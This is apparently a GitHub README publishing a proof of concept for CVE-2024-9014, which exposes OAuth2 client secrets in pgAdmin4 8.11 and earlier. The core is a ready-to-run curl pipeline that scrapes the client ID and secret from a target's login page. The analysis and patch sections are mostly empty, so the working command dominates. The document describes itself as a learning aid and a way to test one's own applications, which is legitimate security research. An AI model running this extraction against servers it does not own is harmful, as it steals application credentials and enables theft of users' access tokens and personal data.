

This post is a research article published by [EQSTLab](https://github.com/EQSTLab).


# CVE-2024-9014
★ CVE-2024-9014 Sensitive Information Exposure PoC ★


## Description
CVE-2024-9014 : pgAdmin4 Sensitive Information Exposure

description: pgAdmin versions 8.11 and earlier are vulnerable to a security flaw in OAuth2 authentication. This vulnerability allows an attacker to potentially obtain the client ID and secret, leading to unauthorized access to user data.


## PoC
### Command 
```sh
curl [URL_TO_TEST]/login?next=/ | grep -o '"oauth2Config": \[.*\]' | sed 's/"oauth2Config": //'
```


### Example 
```sh
curl http://localhost:8000/login?next=/ | grep -o '"oauth2Config": \[.*\]' | sed 's/"oauth2Config": //'
```

### Output
**pgadmin4-8.9** and **pgadmin4-8.12**


# Analysis
## Vulnerable point (pgadmin/templates/security/login_user.html)
At this point, the config.OAUTH2_CONFIG variable returns OAUTH2 configuration files including **OAUTH2_CLIENT_ID** and **OAUTH2_CLIENT_SECRET**.
```sh








```

## Patch



# Scenario
## Compromise private information
Identifying and protecting secret OAuth parameters is very important. While **“client_id”** can be safely disclosed, disclosing **“client_secret”** carries significant risk.
If the client_secret is compromised, an attacker can exploit the identity and trust of the application to steal the user's **“access token”** and personal information.


# Disclaimer
This repository is not intended to be Exposured sensitive information to CVE-2024-9014. The purpose of this project is to help people learn about this vulnerability, and perhaps test their own applications.


# EQST Insight
We publish CVE and malware analysis once a month. If you're interested, please follow the links below to check out our publications.
https://www.skshieldus.com/eng/business/insight.do


# Reference
https://nvd.nist.gov/vuln/detail/CVE-2024-9014

